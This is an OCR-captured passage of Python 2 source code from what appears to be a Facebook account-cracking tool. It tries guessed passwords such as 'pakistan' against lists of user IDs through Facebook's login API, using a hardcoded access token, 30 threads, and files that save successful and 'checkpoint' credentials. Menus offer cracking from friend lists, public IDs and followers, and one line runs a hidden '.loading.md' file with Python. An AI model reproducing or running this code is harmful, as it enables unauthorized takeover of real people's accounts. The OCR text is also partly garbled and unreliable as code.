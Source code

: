 		                                                    ok.close()
		                                                    oks.append(uid)
		                                                else:
		                                                    pass7="pakistan"
		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                                    d=json.loads(q)
		                                                    if 'www.facebook.com' in d['error_msg']:
		                                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass7+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                        cp=open("cp.txt","a")
		                                                        cp.write(uid+" | "+pass7+"\n")
		                                                        cp.close()
		                                                        cps.append(uid)
		                                                    else:
		                                                        if 'access_token' in d:
		                                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass7+" | "+name)
		                                                            ok=open("ok.txt","a")
		                                                            ok.write(uid+" | "+pass7+"\n")
		                                                            ok.close()
		                                                            oks.append(uid)
		                                        
									
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print("\033[1;97m--------------------------------------------------")
	print ('\033[1;97m[+]\033[1;97m Process Has Been Completed')
	print('\033[1;97m[+]\033[1;97m Total CP/OK:\033[0;97m  '+str(len(cps))+'/\033[1;92m '+str(len(oks)))
	print("\033[1;97m--------------------------------------------------")
	raw_input("Press Enter To Main Menu Back")
	menu()
	
def indiaa():
	global token
	os.system("clear")
	try:
		token=open(".login.txt","r").read()
	except IOError:
		print("[!] Error 404 . Token Not Found")
		os.system("rm -rf .login.txt")
		time.sleep(1)
		login()
	os.system("clear")
	print logo
	os.system("python3 .loading.md")
        os.system('clear')
        print logo
	print("\t   India Menu")
	print("\033[1;97m--------------------------------------------------")
	print ("\033[1;97m[1]\033[1;91m-⋄-\033[1;93mCrack From Friend List")
	print ("\033[1;97m[2]\033[1;91m-⋄-\033[1;93mCrack From Public ID")
	print ("\033[1;97m[3]\033[1;91m-⋄-\033[1;93mCrack From Followers")
	print ('\033[1;97m[0]\033[1;91m-⋄-\033[1;93mBack')
	print("\033[1;97m--------------------------------------------------")
	indiaa2()
def indiaa2():
	select = raw_input("\n╰─➣ ")
	id=[]
	oks=[]